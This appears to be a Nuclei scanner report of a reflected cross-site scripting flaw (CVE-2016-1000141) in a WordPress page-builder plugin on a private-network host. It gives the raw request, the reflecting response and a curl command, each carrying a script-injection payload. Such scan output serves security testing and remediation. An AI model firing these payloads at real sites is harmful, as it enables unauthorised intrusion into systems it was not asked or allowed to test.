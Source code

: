 ### WordPress Page Layout builder v1.9.3 - Reflected Cross-Site Scripting (CVE-2016-1000141) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000141**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/page-layout-builder/includes/layout-settings.php?layout_settings_id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Page Layout builder v1.9.3 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | WordPress plugin Page-layout-builder v1.9.3 contains a cross-site scripting vulnerability. |
| Remediation | Upgrade to version 2.0 or higher. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000141](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000141) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/page-layout-builder/includes/layout-settings.php?layout_settings_id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 277
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/page-layout-builder/includes/layout-settings.php?layout_settings_id=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- http://www.vapidlabs.com/wp/wp_advisory.php?v=358
- https://nvd.nist.gov/vuln/detail/cve-2016-1000141
- https://wordpress.org/plugins/page-layout-builder

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/page-layout-builder/includes/layout-settings.php?layout_settings_id=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
